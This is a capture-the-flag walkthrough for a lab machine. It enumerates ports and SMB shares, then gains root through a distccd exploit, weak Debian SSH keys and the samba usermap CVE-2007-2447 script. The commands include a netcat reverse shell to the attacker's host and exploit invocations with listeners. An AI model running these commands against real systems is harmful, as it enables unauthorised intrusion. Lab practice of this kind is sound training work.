





## Enumeration
- Running nmap we found `nmap -p21,22,139,445,3632 -A -T4 -Pn 10.10.10.3 `
 - Found exploits for distccd and for ftp 
### SMB
- using `smbclient -L \\10.10.10.3\\` we found smb folders:
- ADMIN,IPC and opt are password protected
## Exploiting
### Distccd(3632)
- Trying to exploit distccd we gain root access:https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855
- `python2 distccd_exploit.py -t 10.10.10.3 -p 3632 -c "nc 10.10.16.4 1403 -e /bin/sh"`
- We listen using netcat `nc -lvp 1403` 
- After gaining access `updatedb` and `locate user.txt` and to collect flag
- then navigate to /root and use `ls -la` to list all files:
- we find the ssh key in `.ssh`
- we use https://github.com/g0tmi1k/debian-ssh and use `tar jxf debian_ssh_rsa_2048_x86.tar.bz2`
- use `grep -lr AAAAB3NzaC1yc2EAAAABIwAAAQEApmGJFZNl0ibMNALQx7M6sGGoi4KNmj6PVxpbpG70lShHQqldJkcteZZdPFSbW76IUiPR0Oh+WBV0x1c6iPL/0zUYFHyFKAz1e6/5teoweG1jr2qOffdomVhvXXvSjGaSFwwOYB8R0QxsOWWTQTYSeBa66X6e777GVkHCDLYgZSo8wWr5JXln/Tw7XotowHr8FEGvw2zW1krU3Zo9Bzp0e0ac2U+qUGIzIu/WwgztLZs5/D9IyhtRWocyQPE+kcP+Jz2mt4y1uA73KqoXfdw5oGUkxdFo9f1nu2OwkjOc+Wv8Vw7b wkf+1RgiOMgiJ5cCs4WocyVxsXovcNnbALTp3w== *.pub` to find matching public key:`57c3115d77c56390332dc5c49978627a-5429.pub`
- Then ssh into root with `ssh -i 57c3115d77c56390332dc5c49978627a-5429 root@10.10.10.3`
### Using samba usermap(139)
- using samba usermap https://github.com/amriunix/CVE-2007-2447
- `nc -lnvp 443 ` listening using netcat
- `python3 usermap_script.py 10.10.10.3 139 10.10.16.4 443` to send payload and we get a root shell